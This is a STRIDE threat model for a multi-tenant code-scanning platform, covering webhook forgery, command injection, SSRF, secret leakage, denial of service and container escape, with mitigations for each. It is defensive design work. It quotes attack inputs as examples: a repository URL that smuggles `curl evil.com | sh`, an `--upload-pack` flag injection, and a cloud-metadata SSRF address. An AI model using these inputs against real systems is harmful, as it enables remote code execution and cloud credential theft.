

# Threat Model (STRIDE)

> **Document ID:** VS-DOC-18  
> **Status:** Approved Baseline  
> **Version:** 1.0.0  
> **Date:** November 2026  
> **Target Audience:** Security Architects, Lead Developers, Penetration Testers  

---

## 1. Threat Modeling Methodology

VulnSight AI employs the Microsoft **STRIDE** methodology (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege) combined with DREAD risk scoring to evaluate the threat surface across the platform's multi-tenant architecture.

---

## 2. Threat Analysis & Mitigations

### 2.1 Spoofing Identity (S)

#### Threat 1.1: Webhook Payload Forgery
- **Description:** An attacker sends forged Git push webhooks to `/api/v1/webhooks/:repoId` to trigger unauthorized resource-intensive scans.
- **Impact:** High (Resource exhaustion, inaccurate security state).
- **Mitigation:** Webhook endpoints verify cryptographic signatures before processing. GitHub payloads require valid `X-Hub-Signature-256` HMAC-SHA256 matching the repository's encrypted webhook secret using timing-safe comparisons (`crypto.timingSafeEqual`). GitLab and Bitbucket require matching token headers.

#### Threat 1.2: User Session Token Forgery
- **Description:** An attacker attempts to guess or forge user session bearer tokens.
- **Impact:** Critical (Full account takeover).
- **Mitigation:** Tokens are generated from 32 bytes of cryptographically secure pseudo-random entropy (`crypto.randomBytes(32).toString('base64url')`), yielding $2^{256}$ possibilities. The database stores strictly the SHA-256 hash of the token, preventing token recovery even in the event of database compromise.

---

### 2.2 Tampering with Data (T)

#### Threat 2.1: Hostile Git Repository Injection (Command Injection)
- **Description:** An attacker registers a repository URL containing shell metacharacters (e.g., `https://github.com/org/repo.git; curl evil.com | sh`) or branch names with command flags (e.g., `--upload-pack=...`).
- **Impact:** Critical (Remote code execution on worker/server).
- **Mitigation:** 
  1. The API and adapters strictly invoke `child_process.spawn()` with `shell: false`. Arguments are passed as discrete array elements.
  2. Branch names are strictly validated against regex `^[A-Za-z0-9][\w./-]{0,199}$` and rejected if containing double dots (`..`) or double slashes (`//`).
  3. Git clone commands place `--` before the repository URL to prevent flag confusion.

#### Threat 2.2: Finding Status Tampering Across Organizations
- **Description:** An attacker in Organization A issues a PATCH request to modify the triage status or notes of a finding belonging to Organization B.
- **Impact:** Medium (Integrity violation of compliance audit records).
- **Mitigation:** The service layer query enforces `WHERE org_id = ? AND repo_id = ? AND fingerprint = ?`. If the finding fingerprint does not exist within the caller's authorized organization, the system returns `NotFoundError` (`HTTP 404`).

---

### 2.3 Repudiation (R)

#### Threat 3.1: Untracked Triage Status Changes
- **Description:** A developer marks a critical finding as `false_positive` or `accepted` without leaving an audit trail, denying responsibility later.
- **Impact:** Medium (Compliance failure, loss of accountability).
- **Mitigation:** Every triage modification triggers an immutable insertion into `finding_reviews` and `audit_logs` capturing the user ID, timestamp, client IP, previous status, new status, and justification note.

---

### 2.4 Information Disclosure (I)

#### Threat 4.1: Git Provider Token Disclosure in Worker Job Configs
- **Description:** An attacker with read permissions to Azure Container Apps inspects the job execution template and extracts personal access tokens.
- **Impact:** Critical (Customer source code compromise).
- **Mitigation:** Single-use grant architecture (`scan_grants`). The job execution payload contains only an ephemeral grant secret. The job redeems this secret over an internal channel once during its 10-minute validity window. Replay attempts are refused and logged.

#### Threat 4.2: Server-Side Request Forgery (SSRF) to Cloud Metadata
- **Description:** An attacker submits a repository URL targeting `http://169.254.169.254/latest/meta-data/` to extract instance metadata or cloud credentials.
- **Impact:** Critical (Complete cloud infrastructure takeover).
- **Mitigation:** Authoritative pre-clone DNS resolution rejects any URL that resolves to private, loopback, link-local, or metadata addresses. The verified public IP is pinned for the Git clone operation (`http.curloptResolve`). The egress proxy similarly denies non-allowlisted domains and metadata IPs.

#### Threat 4.3: Secret Scanner Finding Leakage
- **Description:** Gitleaks discovers a valid AWS access key or database password in source code; this secret is displayed in plaintext in the dashboard or transmitted to AI providers.
- **Impact:** High (Credential exposure).
- **Mitigation:** The Gitleaks adapter executes in-memory secret masking before findings are stored. Raw secrets are replaced with redacted values (`ghp_****...****`). Secrets are strictly excluded from AI prompts even when code consent is granted.

---

### 2.5 Denial of Service (D)

#### Threat 5.1: Password Hashing Event-Loop Starvation
- **Description:** An attacker sends thousands of concurrent login requests, causing compute-heavy `scrypt` hashing to freeze the Node.js event loop.
- **Impact:** High (Total platform unresponsiveness, dropped connections).
- **Mitigation:** Hashing is executed asynchronously on worker threads with an explicit concurrency cap (`MAX_HASHING = 2`) and a bounded queue (`MAX_HASH_QUEUE = 50`). Excess requests fail fast with `HTTP 503 Busy`.

#### Threat 5.2: Decompression Bomb / Resource Exhaustion
- **Description:** A cloned repository contains nested archives, recursive symlinks, or millions of small files designed to exhaust worker disk or memory.
- **Impact:** Medium (Worker node failure, high cloud billing).
- **Mitigation:** The workspace sanitization routine unlinks all symlinks, enforces a hard quota of 500 MB total uncompressed size and 100,000 files, and kills processes exceeding execution timeouts (15 minutes).

---

### 2.6 Elevation of Privilege (E)

#### Threat 6.1: Container Escape from Scan Worker
- **Description:** Malicious source code or build configuration attempts a kernel exploit or container breakout to compromise the host node.
- **Impact:** Critical (Host node takeover).
- **Mitigation:** Containers run with:
  - `--cap-drop ALL` (all Linux capabilities dropped).
  - `--security-opt no-new-privileges`.
  - Non-root user execution (`UID 10001:10001`).
  - Read-only root filesystem (`--read-only`).
  - Ephemeral tmpfs mount with `noexec,nosuid`.
  - Network isolation (internal bridge or egress-restricted subnet).

---

## 3. Residual Risk Assessment

| Residual Risk | Inherent Risk | Residual Risk | Status / Recommendation |
| :--- | :---: | :---: | :--- |
| **Short-Lived Grant Secret Interception** | High | Low | Window is limited to seconds; redeeming immediately invalidates the token. Recommendation: Mutually authenticated mTLS for worker-to-API communication. |
| **Single-Node SQLite Write Bottleneck** | Medium | Medium | Single-replica constraint prevents multi-region active-active clustering. Recommendation: Migrate to managed PostgreSQL. |
| **Account Lockout Brute Force Lever** | Medium | Low | Rate limiting blocks logins for 15 minutes after repeated bad attempts. Recommendation: Introduce CAPTCHA or magic-link fallback. |
